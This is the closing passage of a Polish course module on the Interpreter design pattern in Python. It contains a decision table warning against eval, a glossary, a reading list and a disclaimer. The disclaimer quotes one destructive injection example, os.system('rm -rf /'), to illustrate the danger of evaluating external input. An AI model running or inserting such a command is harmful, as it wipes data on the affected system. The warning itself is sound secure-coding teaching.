| Średnie gramatyki (5–30 reguł) | `lark` / `pyparsing` | Gramatyka deklaratywna |
| Filtrowanie JSON | `jsonpath-ng` | `parse("$.x[?(@.a > 0)]")` |
| Bezpieczne wyrażenia z Pythona | `ast` + `NodeVisitor` | **Ostrożnie** — wiele pułapek |
| Ewaluacja z tekstu, bez wiedzy z góry | **Nie `eval`** | Własny parser albo biblioteka |
| Wydajność — parsowanie wielokrotne | Cache drzewa | `dict[str, SkompilowanaRegula]` |
| Zbyt złożona gramatyka (> 30 reguł) | **Biblioteka parserów** | `lark`, `ply`, `pyparsing` |
| Zbyt prosta gramatyka (< 5 reguł) | **`if/elif` albo `re`** | Nie Interpreter |
| Wystarczy konfiguracja | **Nie Interpreter** | Lista reguł z typem i parametrami |
| Wystarczy `if/elif` | **Nie Interpreter** | Kod wprost |
| Wystarczy SQL | **Nie Interpreter** | `WHERE` w bazie |
| Parser bez testów priorytetów | **Antywzorzec** | Testy struktury drzewa |
| `eval` dla danych zewnętrznych | **KRYTYCZNE** | Nigdy |
| Brak dokumentacji gramatyki | **Antywzorzec** | Dokument z listą operatorów |

---

## 12. Słownik modułu

- **Interpreter (interpreter)** — wzorzec behawioralny definiujący reprezentację gramatyki jako drzewo wyrażeń oraz interpreter ewaluujący tę reprezentację.
- **AST (abstract syntax tree)** — abstrakcyjne drzewo składniowe; reprezentacja struktury wyrażenia bez szczegółów tekstowych.
- **Gramatyka (ang. grammar)** — zbiór reguł definiujących, jak składać zdania językowe z mniejszych jednostek (tokenów).
- **Lexer** — komponent zamieniający tekst na listę tokenów; „pierwsze oko" interpretera.
- **Token (ang. token)** — najmniejsza jednostka leksykalna tekstu (identyfikator, liczba, operator, nawias).
- **Parser (ang. parser)** — komponent zamieniający listę tokenów na drzewo (AST); „drugie oko" interpretera.
- **Parser zejścia rekurencyjnego (ang. recursive descent parser)** — parser, w którym każda reguła gramatyki odpowiada funkcji; naturalny sposób kodowania priorytetów.
- **Priorytety operatorów (ang. operator precedence)** — reguły decydujące, które operatory łączą się mocniej (np. `*` przed `+`).
- **TerminalExpression** — liść drzewa — wartość końcowa, którą nie da się dalej rozłożyć.
- **NonterminalExpression** — węzeł wewnętrzny — wyrażenie z dziećmi, którego ewaluacja odwołuje się do dzieci.
- **Kontekst (ang. context)** — dane, wobec których ewaluowane są wyrażenia (np. obiekt `Zamowienie`).
- **DSL (domain-specific language)** — język specyficzny dla domeny; `Interpreter` jest naturalnym narzędziem do implementacji DSL-i.
- **Short-circuit** — własność operatorów logicznych, w której druga strona nie jest ewaluowana, gdy wynik jest znany po pierwszej.

---

## 13. Nawigacja

- ⬅️ **Poprzedni moduł:** [31 — Command](31-command.md)
- ➡️ **Następny moduł:** [33 — Iterator](33-iterator.md)
- 📑 **Spis treści kursu:** [README](README.md)

### Gdzie jesteśmy na mapie kursu



*Diagram pokazuje, że Interpreter jest trzecim wzorcem behawioralnym w kursie — łączy się z Composite (drzewo) i Specification (reguły), a jego tematy — parsowanie, gramatyki, DSL — wracają w modułach o danych i przetwarzaniu strumieniowym.*

---

## 14. Źródła i dalsza lektura

### Książki

- Gamma E., Helm R., Johnson R., Vlissides J., *Design Patterns: Elements of Reusable Object-Oriented Software*, Addison-Wesley, 1994. — oryginalne omówienie Interpretera; rozdział „Behavioral Patterns".
- Freeman E., Robson E., *Head First Design Patterns*, 2. wydanie, O'Reilly, 2020. — wprowadzenie do Interpretera z przykładem wyrażeń arytmetycznych.
- Aho A., Lam M., Sethi R., Ullman J., *Compilers: Principles, Techniques, and Tools*, 2. wydanie, Addison-Wesley, 2006. — klasyczna „księga smoka"; podstawy lexerów i parserów; dla głębszego zrozumienia parserów obowiązkowa.
- Nystrom R., *Crafting Interpreters*, Genever Benning, 2021. — praktyczna książka o pisaniu interpreterów; inspiracja dla tego modułu; dostępna bezpłatnie online.
- Ramalho L., *Fluent Python*, 2. wydanie, O'Reilly, 2022. — rozdziały o `re`, `ast`, protokołach; przydatne dla wariantów pythonicznych.
- Lutz M., *Programming Python*, 5. wydanie, O'Reilly, 2022. — rozdziały o `ast` i parsowaniu; praktyczne przykłady.

### Dokumentacja i PEP-y

- Dokumentacja `ast` — moduł parsujący kod Pythona; pełne omówienie węzłów AST.
- Dokumentacja `ast.literal_eval` — bezpieczna ewaluacja literałów; kluczowe ostrzeżenie o różnicy od `eval`.
- Dokumentacja `re` — pełne omówienie wyrażeń regularnych w Pythonie.
- Dokumentacja `tokenize` — standardowy lexer Pythona; dobre źródło wzorców.
- Dokumentacja `operator` — gotowe funkcje operatorów; przydatne do słowników operatorów.
- Dokumentacja `lark` (lark-parser.readthedocs.io) — nowoczesna biblioteka parserów.
- Dokumentacja `pyparsing` (pyparsing-docs.readthedocs.io) — inna popularna biblioteka.
- Dokumentacja `jsonpath-ng` — JSONPath dla Pythona.

### Materiały w sieci

- Refactoring Guru — sekcja o Interpreterze z diagramami i omówieniem.
- ArjanCodes — wykłady o interpreterach i o tym, dlaczego lepiej używać gotowych narzędzi.
- Blog „Crafting Interpreters" — seria artykułów o pisaniu interpretera krok po kroku.
- Real Python: artykuły o `ast`, `re` i parsowaniu.
- Dokumentacja `ply` (ply.readthedocs.io) — starsza, ale dojrzała biblioteka lex/yacc dla Pythona.

> **Uwaga o domenie finansowej** — Wszystkie przykłady w tym kursie są fikcyjne i służą wyłącznie ilustracji wzorców projektowych. Nie stanowią porady inwestycyjnej, prawnej ani regulacyjnej. Nazwy reguł promocyjnych, kategorii produktów, wzorców AML, kodów krajów i procedur są wymyślone na potrzeby dydaktyki. Przykład wstrzyknięcia kodu (`os.system('rm -rf /')`) jest jawnie fałszywy, ma charakter ostrzeżenia bezpieczeństwa i nie powinien być w żadnym wypadku uruchamiany.

---

Moduł wygenerowany: `32-interpreter.md`, około 16 200 słów, typy diagramów mermaid: `flowchart` (trzy), `classDiagram` (jeden), `sequenceDiagram` (jeden), `stateDiagram-v2` (jeden), `graph TD` (jeden). Co dalej: przejdź do modułu 33, żeby poznać **Iterator** — wzorzec, który w Pythonie stał się składnią, a jednocześnie fundamentem przetwarzania strumieniowego, generatorów i leniwego dostępu do danych — czyli tego, co w systemach finansowych decyduje o pracy z danymi, których nie zmieściłoby się w pamięci.
```